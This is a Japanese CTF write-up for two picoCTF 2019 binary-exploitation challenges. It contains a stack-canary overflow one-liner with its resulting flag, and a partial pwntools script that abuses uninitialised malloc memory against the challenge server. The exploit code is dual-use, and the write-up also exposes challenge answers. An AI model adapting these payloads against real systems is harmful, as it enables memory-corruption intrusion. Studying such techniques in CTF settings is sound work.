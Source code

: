 <br />
## Solution
これはpicoCTF 2018のbof3とほぼ同じです。

去年のどこかのWriteupにあったコードを流用させてもらって、canary (33xO) をゲット。

```
$ (python -c 'print("54\n"+"A"*32+"33xO"+"abcdefghijklmnop" + "\xed\x07")'; cat -) | ./vuln
Please enter the length of the entry:
> Input> Ok... Now Where's the Flag?
picoCTF{cAnAr135_mU5t_b3_r4nd0m!_069c6f48}
```

Flag: `picoCTF{cAnAr135_mU5t_b3_r4nd0m!_069c6f48}`




<br /><br />
<br /><br />
# [Binary Exploitation]: messy-malloc (300 points)
- - -
## Challenge
> Can you take advantage of misused malloc calls to leak the secret through this service and get the flag? Connect with nc 2019shell1.picoctf.com 21899.
<br /><br />
Hint: If only the program used calloc to zero out the memory..

Attachment:

- auth (ELF 64-bit)
- auth.c

<br />
## Solution
GDBを使ってヒープがどうなるか見ながら解析しました。Ubuntu 18.04で解析したら、やっぱりちょっと動きが違った覚えがあります。

あと、recvuntil()辺りが思ったように動かなくて Invalid option になっちゃったりしたので、よくわかんないけど Invalid になった際には再トライするようにして対処しました。

```Python
#!/usr/bin/env python
from pwn import *
import re

# s=process('./auth')
s = remote('2019shell1.picoctf.com', 21899)
    
print s.recvuntil("> ") # Enter you command:
s.sendline("login")
print "## login"

print s.recvuntil("\n") # Please enter the length of your username
s.sendline("25")
print "## 25"

print s.recvuntil("\n") # Please enter your username
data = b'A' * 8 + '\x52\x4f\x4f\x54\x5f\x41\x43\x43' + '\x45\x53\x53\x5f\x43\x4f\x44\x45'
s.sendline(data)

print s.recvuntil("> ") # Enter you command:
s.sendline("logout")
print "## logout"

msg = s.recvuntil("> ") # Enter you command:
```